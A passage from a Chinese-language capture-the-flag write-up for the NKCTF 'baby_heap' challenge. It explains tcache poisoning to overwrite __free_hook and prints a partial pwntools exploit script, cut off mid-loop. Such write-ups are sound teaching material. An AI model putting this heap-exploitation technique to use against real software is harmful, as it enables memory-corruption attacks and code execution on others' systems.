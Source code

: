 往tcache上多填充几个chunk，以免tcache->count不足无法取下fake chunk。基本的原理与fastbin类似，都是将可控制chunk放入bin，之后修改next指针指向希望写入的地址即可。

本题直接写入__free_hook完成攻击。

[baby_heap](/assets/binary/2023-04-13-NKCTF22/baby_heap.zip)

```python
from pwn import *

libc = ELF('./libc-2.32.so')
elf = ELF('./pwn')

context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

class Solve:

    def __init__(self, handle) -> None:
        self.handle = handle

    def choice(self, index):
        self.handle.recvuntil('Your choice: ')
        self.handle.sendline(str(index))

    # index <= 0xf
    # size <= 256(0x100)
    # size int->uint
    def add(self, index, size):
        self.choice(1)
        self.handle.recvuntil('Enter the index: ')
        self.handle.sendline(str(index))
        self.handle.recvuntil('Enter the Size: ')
        self.handle.sendline(str(size))

    def delete(self, index):
        self.choice(2)
        self.handle.recvuntil('Enter the index: ')
        self.handle.sendline(str(index))

    def edit(self, index, content):
        self.choice(3)
        self.handle.recvuntil('Enter the index: ')
        self.handle.sendline(str(index))
        self.handle.recvuntil('Enter the content: ')
        self.handle.sendline(content)

    def show(self, index):
        self.choice(4)
        self.handle.recvuntil('Enter the index: ')
        self.handle.sendline(str(index))

    def exit(self):
        self.choice(5)

    def solve(self):
        self.add(0, 0x18)
        self.add(1, 0x40)
        self.add(2, 0x40)

        # fill tcache
        for i in range(3, 3+7):
            self.add(i, 0x90)
        for i in range(3, 3+7):
```
